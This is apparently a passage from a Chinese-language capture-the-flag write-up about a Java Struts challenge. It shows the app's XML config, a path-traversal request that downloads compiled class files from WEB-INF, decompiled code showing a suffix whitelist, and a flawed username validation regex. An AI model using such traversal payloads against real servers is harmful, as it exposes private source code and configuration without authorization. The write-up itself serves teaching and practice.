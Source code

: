 ```xml
            <interceptor-stack name="userAuth">
                <interceptor-ref name="defaultStack" />
                <interceptor-ref name="oa" />
            </interceptor-stack>

        </interceptors>
        <action name="list" class="com.cuitctf.action.AdminAction" method="execute">
            <interceptor-ref name="userAuth">
                <param name="excludeMethods">
                    execute
                </param>
            </interceptor-ref>
            <result name="login_error">/ctfpage/login.jsp</result>
            <result name="list_error">/ctfpage/welcome.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
    </package>
</struts>
```

根据action里的信息下载对应源码

```
loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/DownloadAction.class
```

```java
public class DownloadAction
  extends ActionSupport
{
  ...
  public InputStream getDownloadFile() throws Exception { return ServletActionContext.getServletContext().getResourceAsStream("/ctfpage/images/" + this.fileName); }
  public String execute() throws Exception {
    String suffix = this.fileName.substring(this.fileName.lastIndexOf(".") + 1);
    if (!suffix.equals("xml") && !suffix.equals("jpg") && !suffix.equals("class")) {
      return "suffix_error";
    }
    return "success";
  }
  ...
}
```

可以看到只允许下载.xml，.jpg，.class文件

在UserLoginAction.class

```java
  public boolean isValid(String username) {
    String valiidateString = "[a-zA-Z0-9]{1-16}";
    return matcher(valiidateString, username);
  }
```
